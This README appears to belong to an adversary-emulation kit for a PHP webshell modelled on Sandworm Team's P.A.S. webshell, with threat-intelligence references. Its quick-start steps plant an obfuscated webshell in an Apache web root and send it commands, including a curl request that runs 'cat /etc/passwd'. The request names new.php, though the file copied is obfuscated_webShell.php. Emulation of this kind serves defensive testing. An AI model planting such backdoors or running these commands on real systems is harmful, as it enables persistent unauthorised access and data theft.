 # PHP WebShell

This folder contains a simple PHP webshell that emulates a subset of behaviors of the P.A.S. webshell used by Sandworm Team:

```
Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.[19]
```

## Quick Start

0. Read the source code for `webShell.php` and `obfuscated_webShell.php` - don't worry, its short.

1. Copy `obfuscated_webShell.php` to a web server directory on the target system. This example shows how to do so on a default Apache installation:

```
cp obfuscated_webShell.php /var/www/html/
```

2. Start the web server if its not already running

```
sudo systemctl start apache2
```

3. Issue commands using a web browser or HTTP client:

```
curl http://127.0.0.1/new.php?cmd=cat+/etc/passwd
```

## Test Instructions

Run this Python script:

```
python3 test_webshell.py
```

## Cleanup Instructions

Delete the webshell from the target file system:

```
rm /var/www/html/obfuscated_webShell.php
```

## Misc

The PHP source code was taken from Kali Linux at:

```
/usr/share/webshells/php/simple-backdoor.php
```

Credit the original author: DK, <http://michaeldaw.org>, 2006 (note: dead hyperlink)

The obfuscated_webShell.php was obfuscated using an online PHP obfuscator (<https://www.gaijin.at/en/tools/php-obfuscator>).

### CTI Evidence
<https://attack.mitre.org/groups/G0034/>
<https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>

### References
<https://tools.kali.org/maintaining-access/webshells>
<https://www.gaijin.at/en/tools/php-obfuscator>

